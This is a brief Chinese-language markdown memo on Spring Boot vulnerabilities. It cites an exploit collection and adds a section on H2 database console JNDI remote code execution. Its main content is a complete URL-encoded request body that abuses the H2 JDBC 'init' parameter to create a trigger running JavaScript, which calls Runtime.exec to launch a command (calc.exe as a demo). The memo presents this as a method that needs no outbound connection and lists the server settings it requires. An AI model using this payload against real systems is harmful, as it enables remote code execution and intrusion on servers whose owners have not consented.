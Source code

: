 # Springboot 漏洞

参考：https://github.com/LandGrey/SpringBootVulExploit
写的非常全.

**该系列漏洞主要是通过env的配置接口进行配置，刷新或者重启触发漏洞**

补：0x07：h2 database console JNDI RCE

限制：
开启 -webAllowOthers 选项，支持外网访问
开启 -ifNotExists 选项，支持创建数据库

不需要出网利用:

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=org.h2.Driver&url=jdbc%3ah2%3amem%3atest%3bMODE%3dMSSQLServer%3binit%3dCREATE+TRIGGER+shell3+BEFORE+SELECT+ON+INFORMATION_SCHEMA.TABLES+AS+$$//javascript%0a%0ajava.lang.Runtime.getRuntime().exec('cmd+/c+calc.exe')$$&user=sa&password=

